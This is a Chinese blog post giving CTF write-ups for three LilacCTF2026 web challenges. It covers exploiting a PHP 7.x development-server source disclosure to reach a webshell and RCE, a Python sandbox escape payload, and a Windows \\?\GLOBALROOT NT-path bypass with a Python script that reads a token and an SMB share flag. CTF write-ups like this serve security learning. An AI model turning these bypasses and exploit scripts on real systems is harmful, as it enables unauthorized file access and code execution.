






---
title: "LilacCTF2026--web"
date: 2026-01-24T14:38:40+08:00
summary: "比想象中发挥要好一点"
url: "/posts/LilacCTF2026-web/"
categories:
  - "赛题wp"
tags:
  - "LilacCTF2026"
draft: false
---

第一天出了两web，虽然第二个是ai梭出来的emmm



# keep

## #Development Server源码泄露

这道题卡太久了，整整卡了我一个上午的时间，shit

打开题目就是一个HelloWorld的页面，扫目录也没扫出来什么

响应中看到是PHP/7.3.4，找了一圈RCE的CVE都没翻到

后面尝试找找源码泄露的漏洞，找到了一个：https://mp.weixin.qq.com/s/PjOmSozGtjq4H_uzSFJWEg

因为环境内存在index.php文件，所以得用第二个升级版的poc



其实这里第二个请求的路径传什么都可以，但不能是php后缀，一开始不知道是为啥

直到参考了这个文章：https://ayuniversity.github.io/2025/04/29/PHP_=7.4.21%20Development%20Server%E6%BA%90%E7%A0%81%E6%B3%84%E9%9C%B2%E6%BC%8F%E6%B4%9E/



如果传的是php后缀的话就会把第一个请求里面的php代码解析执行，类似于文件包含？



拿刚刚的路由访问一下发现是一个一句话木马，那就尝试解析传参一下



一开始一直没整出来，后面发现是Content-Length长度算错了。。。，接下来直接RCE就行

找到一个带有源代码分析的比较好的国外文章：https://projectdiscovery.io/blog/php-http-server-source-disclosure

# CheckIn

## #python沙箱绕过

打开是一个python的debug代码测试页面，摸了一下发现过滤了数字和字母

扫目录扫出一个backup.zip有源码泄露，那就舒服多了

```python
#Python 3.14.2
import re
from collections import UserList
from sys import argv

class LockedList(UserList):
    def __setitem__(self, key, value):
        raise Exception("Assignment blocked!")

def sandbox():
    if len(argv) != 2:
        print("ERROR: Missing code")
        return

    try:
        status = LockedList([False])
        status_id = id(status)
        user_input = argv[1].encode('idna').decode('ascii').rstrip('-')
```

给了一个继承自UserList的锁定列表，但是不能直接索引修改列表值

实例化了一个LockedList对象，值是`status[0]=False`，但是这里有一个坑点是只能传一条表达式，然后黑名单也很麻烦

```python
		if re.search(r'[0-9A-Z]', user_input):
            print("FORBIDDEN: No numbers or alphas")
            return

        if re.search(r'[_\s=+\[\],"\'\<\>\-\*@#$%^&\\\|\{\}\:;]', user_input):
            print("FORBIDDEN: Incorrect symbol detected")
            return

        if re.search(r'(status|flag|update|setattr|getattr|eval|exec|import|locals|os|sys|builtins|open|or|and|not|is|breakpoint|exit|print|quit|help|input|globals)', user_input.casefold()):
            print("FORBIDDEN: Keywords detected")
            return

        if len(user_input) > 60:
            print("FORBIDDEN: Input too long! Keep it concise and it is very simple.")
            return
```

数字和大写字母被过滤掉了，还没法直接用status，需要另外构造

```python
if status[0] and id(status) == status_id:
            with open('/flag', 'r') as f:
                flag = f.read().strip()
                print(f"SUCCESS! Flag: {flag}")
        else:
            print(f"FAILURE: status is still {status}")
```

条件就是把False改成True，并且id要不变

其实构造方法还挺简单的，能访问局内变量的函数和方法也有很多，比如locals()，globals()，vars()等

 ```python
 from collections import UserList
 class Test(UserList):
     def __setitem__(self, key, value):
         raise Exception("Assignment blocked!")
 def test():
     status = Test([False])
     a = 1
     print(locals())
     print("\n")
     print(vars())
     print("\n")
     print(globals())
     print("\n")
 
 if __name__ == '__main__':
     test()
 #输出结果
 {'status': [False], 'a': 1}
 
 
 {'status': [False], 'a': 1}
 
 
 {'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x000001A5C386B6B0>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': 'C:\\Users\\23232\\Desktop\\附件\\源码\\1.py', '__cached__': None, 'UserList': <class 'collections.UserList'>, 'Test': <class '__main__.Test'>, 'test': <function test at 0x000001A5A3256FC0>}
 ```

很明显这三种函数返回的都是字典，globals和locals都被过滤了只能用vars，那可以用字典索引的方式去尝试索引

可以用get()函数去通过key获取到value，问题是如何构造获取到key呢？

我用到了两个方法，一个是dir()函数可以返回字典的键组成字典，配合min函数找到status列表的值，一个是用迭代器配合next()函数去索引值

 ```python
 #Python 3.14.2
 import re
 from collections import UserList
 from sys import argv
 
 class LockedList(UserList):
     def __setitem__(self, key, value):
         raise Exception("Assignment blocked!")
 
 def sandbox():
     status = LockedList([False])
     status_id = id(status)
     print(dir())
     print("\n")
     print(vars().get(min(dir())))
     print("\n")
     print(next(iter(vars().values())))
 
 
 if __name__ == '__main__':
     sandbox()
 #输出结果
 ['status', 'status_id']
 
 
 [False]
 
 
 [False]
 ```

拿到值了就看看怎么改成true吧

本来想着用异或以及或运算去算的，但是被ban了，不过意外之喜是取反没被ban，可以用取反去构造

```python
from collections import UserList

class LockedList(UserList):
    def __setitem__(self, key, value):
        raise Exception("Assignment blocked!")

def sandbox():
    status = LockedList([False])
    status_id = id(status)
    print(dir())
    vars().get(min(dir())).append(~vars().get(min(dir())).pop())
    print("\n")
    print(next(iter(vars().values())))


if __name__ == '__main__':
    sandbox()
['status', 'status_id']


[-1]
```

只能拿到-1了emmm，其他的如果有方法的师傅可以告诉我交流一下。-1的话也是可以作为true满足条件的

但是我传poc进去发现长度太长了，那就换成第一个方法吧，那个貌似短一些

```python
vars().get(min(dir())).append(~vars().get(min(dir())).pop())
```



一开始问ai说还需要注意id的值，但是`id(obj)` 返回的是**对象在内存中的唯一身份标识**，也就是相当于是一个内存地址吧，是固定的值

# Path(复现)

## #Windows系统路径解析

后面做了一下，其实也是可以比赛中做出来的，但是一直在忙着奔波没时间看题

题目有一段文字：Win32 → NT Path Conversion Challenge（Win32到NT路径的转换）

给了三个api接口，先看看系统信息接口/api/info

```json
{
  "data": {
    "challenge": "Path Maze",
    "hints": [
      "Stage 1: Find and read the access token from the system",
      "Stage 2: Use the token to access the backup server",
      "Token location: C:\\token\\access_key.txt",
      "Backup server: 172.20.0.10",
      "Backup server SMB Share name: backup",
      "Flag file: flag.txt"
    ],
    "stages": 2,
    "version": "1.0.0"
  },
  "success": true
}

```

给token了，尝试在Stage 1进行读取一下

```http
?path=C:\token\access_key.txt
```

但是没读出来，绕路径前缀一般有`\\?\`、`\\.\`、`\??\`，尝试`\\?\`进行绕过，会直接用NT的路径处理

```http
?path=\\?\C:\token\access_key.txt
```

成功拿到token

```json
{
  "message": "Access key verified! Here is your Stage 2 token.",
  "success": true,
  "token": "1L1NrZI_KDO89BDq_y2wbPqFurJVD4KQAcA-Wjv1sR0",
  "token_expires_in": 300
}

```

但是我发现这个token每次获取是不一样的，并且有效时间是300s，只能写个脚本去获取了

到那时UNC被过滤了，我们用共享文件的NT绝对路径

```bash
\Device\Mup\<Server>\<Share>\<Path>
```

并且这里的话依旧是需要做一个NT直接的解析和GLOBALROOT的根路径绕过

```python
import requests

url1 = "http://1.95.51.2:8080/api/diag/read"
url2 = "http://1.95.51.2:8080/api/export/read"

def get_token(url1):
    #获取token
    r1 = requests.get(url1,params={'path':'\\\\?\\C:\\token\\access_key.txt'})
    token = r1.json()['token']
    print(token)
    return token

def path_read_with_token(url2,token):
    r2 = requests.get(url2,params={'token':token,'path':'\\\\?\\GLOBALROOT\\Device\\Mup\\172.20.0.10\\backup\\flag.txt'})
    print(r2.text)


if __name__ == '__main__':
    token = get_token(url1)
    path_read_with_token(url2,token)
```

发现UNC被过滤了，换成NT的共享文件绝对路径看看

```python
\\?\Device\Mup\172.20.0.10\backup\flag.txt
```
